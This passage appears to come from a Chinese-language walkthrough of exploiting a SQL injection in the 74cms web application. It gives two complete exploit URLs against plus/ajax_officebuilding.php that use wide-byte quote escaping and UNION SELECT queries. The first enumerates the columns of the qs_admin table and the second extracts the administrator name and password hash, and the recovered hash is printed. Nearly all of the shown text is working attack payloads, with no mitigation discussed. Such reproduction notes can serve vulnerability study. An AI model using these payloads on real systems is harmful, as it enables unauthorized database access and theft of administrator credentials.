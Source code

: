   ![74cms_show_tables](imgs/74cms_show_tables.png)

  发现关键表`qs_admin`

  2.6. 查看`qs_admin`表字段

  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20
select%201,2,3,
concat(column_name),5,6,7,null,9%20FROM information_schema.columns where table_name=0x71735f61646d696e
%23`

  *`table_name=0x71735f61646d696e`，该16进制字符串是由qs_admin转换而来*

  ![74cms_show_columns](imgs/74cms_show_columns.png)

  2.7. 查看登陆用户和密码

  `http://ip/plus/ajax_officebuilding.php?act=alphabet&x=1%df%27%20Union%20
select%201,2,3,
admin_name,5,6,7,pwd,9%20FROM qs_admin
%23`

  得到用户名`admin`
  密码`a548bfad6b1eb4afc38788d00dfecca8`
